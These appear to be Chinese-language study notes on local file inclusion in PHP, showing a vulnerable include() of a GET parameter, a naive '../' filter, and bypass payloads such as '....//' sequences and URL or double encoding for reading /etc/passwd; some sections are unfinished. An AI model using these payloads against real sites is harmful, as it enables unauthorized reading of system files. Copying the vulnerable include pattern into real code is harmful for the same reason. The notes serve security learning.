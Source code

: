   

**扩展名**

在这种情况下，如果我们尝试阅读/etc/passwd，那么包含的文件将是 /etc/passwd.php，不存在：

```

对应代码

include($_GET['language'] . ".php");

```

没说怎么办

**二阶攻击**

未完待续...

## LFI基本绕过

  

**非递归路径遍历过滤器**

  

针对 LFI 的最基本的过滤器之一是搜索和替换过滤器，它只是删除 ( 的子字符串../）以避免路径遍历。例如：

```

$language = str_replace('../', '', $_GET['language']);

对策：

?PAGE=....//....//....//....//etc/passwd

..././

....\/

....////

```


**编码**

URL编码

`../`转换为`%2e%2e%2f`

其他的字符可以使用在线工具转换：

为此，我们必须对所有字符（包括点）进行 URL 编码。某些 URL 编码器可能不会对点进行编码，因为它们被视为 URL 方案的一部分

  

正如我们所看到的，我们也能够成功绕过过滤器并使用路径遍历来读取 /etc/passwd。此外，我们还可以使用Burp Decoder对编码后的字符串再次进行编码，得到double encoded字符串，它也可能绕过其他类型的过滤器。
